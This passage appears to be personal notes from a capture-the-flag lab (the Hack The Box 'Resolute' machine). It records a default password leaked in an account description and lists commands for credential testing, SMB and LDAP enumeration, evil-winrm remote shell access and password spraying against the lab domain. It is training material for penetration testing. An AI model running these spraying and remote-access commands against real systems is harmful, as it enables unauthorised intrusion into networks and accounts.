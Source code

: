 |   MEGABANK\marko (RID: 1111)
|     Full name:   Marko Novak
|     Description: Account created. Password set to Welcome123!

### Access Check should be done before trying login
##### winrm
```bash
crackmapexec winrm $IP -u marko -p 'Welcome123!'

SMB         10.129.96.155   5985   RESOLUTE         [*] Windows 10.0 Build 14393 (name:RESOLUTE) (domain:megabank.local)
HTTP        10.129.96.155   5985   RESOLUTE         [*] http://10.129.96.155:5985/wsman
WINRM       10.129.96.155   5985   RESOLUTE         [-] megabank.local\marko:Welcome123!
```

### SMB with marko
```bash
smbclient -L $IP -U=marko%'Welcome123!'
smbclient -L megabank.local -U=marko%'Welcome123!'
smbmap -H $IP -u marko -p 'Welcome123!'
smbmap -H megabank.local -u marko -p 'Welcome123!'
smbmap -H $IP -d megabank.local -u marko -p 'Welcome123!'
```

### rpcclient
```bash
rpcclient -U marko $IP 
```

### WinRM connection in linux (HackTricks)
```bash
evil-winrm -u marko -p 'Welcome123!' -i http://10.129.96.155:5985/wsman
evil-winrm -u marko -p 'Welcome123!' -i $IP
evil-winrm -u marko -p 'Welcome123!' -i megabank.local
```

### ldapdomaindump
```bash
ldapdomaindump megabank.local -u "MEGABANK\marko" -p 'Welcome123!'
ldapdomaindump megabank.local -u "MEGABANK.local\marko" -p 'Welcome123!'
```

### Password spray since the hint "Welcome123!" as a common password
```bash
crackmapexec smb $IP -u users.txt -p 'Welcome123!' --continue-on-success
crackmapexec winrm $IP -u users.txt -p 'Welcome123!' --continue-on-success
crackmapexec smb $IP -u rpc_users.txt -p 'Welcome123!' --continue-on-success
crackmapexec winrm $IP -u rpc_users.txt -p 'Welcome123!' --continue-on-success
```
